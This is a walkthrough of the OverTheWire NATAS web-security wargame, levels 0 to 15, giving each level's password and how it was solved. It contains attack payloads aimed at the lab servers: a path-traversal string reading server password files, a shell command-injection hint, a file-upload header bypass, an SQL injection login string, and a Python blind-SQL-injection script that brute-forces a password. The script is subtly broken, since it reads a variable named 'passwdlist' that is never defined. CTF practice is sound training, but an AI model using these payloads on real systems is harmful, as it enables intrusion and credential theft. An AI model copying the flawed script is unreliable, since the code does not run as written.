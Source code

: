 # Web-Security-CTF

# NATAS Walkthrough
A brief guide to solving NATAS Challenges on the OverTheWire platform. 

_Note: From challenge level 9 and above, I am just writing the hints that I noted while solving the challenges, which I used to write Python scripts (except for Challenge levels 12 and 13) that just scrapped the passwords. I hope to write a clearer and more beginner-friendly guide shortly._

Happy learning :)

## Natas answers for levels 1 - 15
### Level 0 -> 1
>Credentials are username - _natas0_	and password - _natas0_

In level 0, after logging in, right-click on the webpage to view the source code. The password for the next level will be mentioned in a comment in the source code.
 
### Level 1 -> 2
>credentials are username - _natas1_	and password - _g9D9cREhslqBKtcA2uocGHPfMZVzeFK6_

This level is similar to the previous level, only that right-click is now blocked. So instead we use the keyboard shortcut (_usually **ctrl+shift+c**, but could be different in the browser that you are using)  

### Level 2 -> 3
>Credentials are username - _natas2_ and password - _h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7_

We can view the source code at this level, but there are no comments. We do find another directory referenced in the source code as `<img src='files/pixel.png>` indicating that there is another directory where files exist. So you add the directory `/files` to the current URL. You should see a list of files in that directory and notice there is another file named _users.txt_. You should be able to find the password for the next level when reading this file.

### Level 3 -> 4
>Credentials are username - _natas3_	 and password - _G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q_

In the source code of this webpage, we find a comment that says `<!-- No more information leaks!! Not even Google will find it this time... -->` This hints us to look at the **_robots.txt_** file. So you add `/robots.txt` to the URL to view that file. This file tells 
search engines which directories they can or cannot crawl on the website. In this file, we find a directory that has not been allowed for crawling by bots, `s3cr3ts`. Now we replace the `/robots.txt` with the new found directory, and find the `users.txt` file, similar to the previous challenge. Here you will find the password for the next level.

### Level 4 -> 5
>Credentials are username - _natas4_	 and password - _tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm_

This level would require you to understand how to use Burpsuite (or another tool to manipulate headers). After logging into the website using the credentials found in the previous challenge, capture the headers that were sent in the GET request. Now, you will need to change the natas level from `natas4`(the rest of the value is the same) to `natas5`(the rest of the value is the same as the original). After changing the URL Referrer, send the GET request with the modified headers. You should be able to view the password for next level on the page content that gets returned to the request made. 

### Level 5 -> 6
>Credentials are username - _natas5_ and password - _Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD_

This level is similar to the previous level. The headers must be captured, and the login status must be changed from `False` to `True`. 

### Level 6 -> 7
>Credentials are username - _natas6_	and password - _fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR_

This level requires you to do more digging on the website. If you view the source code, there is a hint to the answer in the `/includes/secret.inc` page that is being referred to match the entered value. When you view that page, it is blank. This will confuse the attacker. However the referred variable in the source code of the main page is from the `secrets.inc` page, so there must be a variable with the correct value to unlock the password for the next level. If you view the source code of the blank page at `/includes/secrets.inc` you should find the variable that has the "secret" value that has been commented. 

### Level 7 -> 8
>Credentials are username - _natas7_ and password - _jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr_

The hint to find the answer that will give us the password is also in the source code. This time, the hint is direct and says that `<!-- hint: password for webuser natas8 is in etc/natas_webpass/natas8 -->`. This means that all we need to do is access this directory on their server to view the password for the next level. If you have used Linux before, then you must be familiar with using the `..` to change the working directory to the parent directory. If you haven't I would suggest you google about it and learn more, if possible try it out to understand better. There is a web vulnerability called Local File Inclusion, that allows a user to access the local files on a server using the `../` to go to the parent directory and then enter the directory that we want to view. When you view the "home" or "about" page, notice the keyword `?page=` in the URL. This will query the webserver to view the page mentioned after this keyword. So when we add the string `../../../../../../../etc/natas_webpass/natas8` after the `?page=` string in the URL and hit enter, the webpage should show the password for the next level. 

### Level 8 -> 9
>Credentials are username - _natas8_	and password - _a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB_

This time, you see a form field with a submit button. Similar to the previous challenges, we again begin by viewing the source code of the index page. Upon analyzing the source code, we understand that an encrypted key is already written in the source code. The encoded string has been encrypted using the function defined in the source code. 
`decodedstr = base64.b64decode(bytes.fromhex(encodedstr)[::-1]).decode('utf-8')`
### Level 9 -> 10
>Credentials are username - _natas9_  and password - _Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd_

inject the form field; hint " ; cat /etc/natas_webpass/natas10*"

### Level 10 -> 11
>Credentials are username - _natas10_	and password - _D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE_

inject the form field without ";", instead use "." (use the same injection string as used for the previous challenge)

### Level 11 -> 12
>Credentials are username - _natas11_	and password - _1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg_

XOR encryption. Encrypted string in the source code which also includes the order of encryption and encoding. 

### Level 12 -> 13
>Credentials are username - _natas12_	and password - _YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG_

upload a file, go to inspect > elements> change the random file name to the format that will unlock the password for the next level (a hint for this is in the source code).

### Level 13 -> 14
>Credentials are username - _natas13_	and password - _lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9_

Open the file in a notepad and then add image exif header `GIF87a` at the beginning and the rest is similar to natas12. You can use any other image exif headers as you just need to validate one of the functions that look for image exif headers on the file uploaded (see it in the source code). Refer to this Wikipedia page for other headers - https://en.wikipedia.org/wiki/List_of_file_signatures 

### Level 14 -> 15
>Credentials are username - _natas14_	and password - _qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP_

SQL injection string - username is `admin` and password is `" or "1"="1`

### Level 15 -> 16
>Credentials are username - _natas15_	and password - _TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB_

Blind SQL injection, its like trial and error method of performing SQL queries to retrieve the desired data (google to learn more).

Py code for blind injection. 
```python
import re, requests

url = 'http://natas15.natas.labs.overthewire.org/index.php'
auth = ('natas15','TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB') #auth creds from the previous challenge

passwordlist = []
ch = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" #charset

#the next 2 lines were written to understand the response of the SQL query performed.
#resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \"%"})
#print(resp.text)

#Then the rest of the code was built after understanding the TRUE and the FALSE response we received. 
for i in range(32): #we know that the hash is 32 bits long, so we will need to guess 32 characters and hence iterate 32 times.
    for j in ch: #iterate through every character from the charset
        resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \""+"".join(passwdlist)+j+"%"}) #perform a get request
        if "This user exists" in resp.text: #if we get a TRUE response, it means a character matches the original hash. 
            print(f"The character no {i+1} of the password found is : {j}")
            passwordlist.append(j) #append the matching character to the hash
            break

password = "".join(passwordlist)

print(f"\nThe password for Natas Level 16 is : {password}")

```

Credentials for the next challenge which is level 16 -> 17 are username - _natas16_ and password - _TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V_ 
